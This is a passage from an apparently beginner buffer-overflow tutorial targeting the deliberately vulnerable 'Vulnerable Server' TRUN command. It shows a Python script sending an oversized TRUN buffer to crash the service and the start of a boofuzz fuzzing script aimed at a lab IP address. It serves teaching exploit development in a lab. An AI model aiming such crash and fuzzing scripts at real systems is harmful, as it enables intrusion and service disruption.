 ```python

# send the payload
# this will send: TRUN AAAAAAAAAA....
s.send(buf)

# If the exploit worked then this script should get "stuck" at this point 
# because the socket connection died before we could receive an answer from the server

# but if the server responds, then the exploit failed:
response = s.recv(1024)
print(response)

print("Done")
```

In other beginner tutorials you might have seen this code before. You would simply increase the value of `size` until the server crashes.

But you will quickly notice that this won't work here. What is going on here? We know the TRUN command is vulnerable, but regardless of how big the buffer is that you send, the server will not crash.

As it turns out the server requires a specific character sequence in order to crash.


## Fuzzing for a Crash

There are many fuzzers out there that can be used to test for buffer overflows (e.g. [SPIKE](https://github.com/guilhermeferreira/spikepp/tree/master/SPIKE)), but we will stick to Python3 in this tutorial and use the [boofuzz](https://boofuzz.readthedocs.io/en/stable/index.html) library.

```bash
$ python3 -m pip install boofuzz
```

The boofuzz website linked above offers a [Quickstart tutorial](https://boofuzz.readthedocs.io/en/stable/user/quickstart.html).

The basic setup is easy enough. I have created a file `trun_0_boofuzz.py`:

```python
#!/usr/bin/env python3
# TRUN - Step 0 -- Fuzzing for a crash
from boofuzz import *
import time
import sys

target_ip = "10.0.2.74"
target_port = 9999

# stop when server is dead
def is_alive(target, my_logger, session, *args, **kwargs):
    try:
        banner = target.recv(10000)

        # See if we received the standard banner
        if not banner or banner != b'Welcome to Vulnerable Server! Enter HELP for help.\n':
            raise Exception("Banner does not match")
    except:
        print("Unable to connect. Target is down. Exiting.")
        sys.exit(1)

def main():
    session = Session(
	sleep_time=1,
        target=Target(
            connection=SocketConnection(target_ip, target_port, proto='tcp')
        ),
```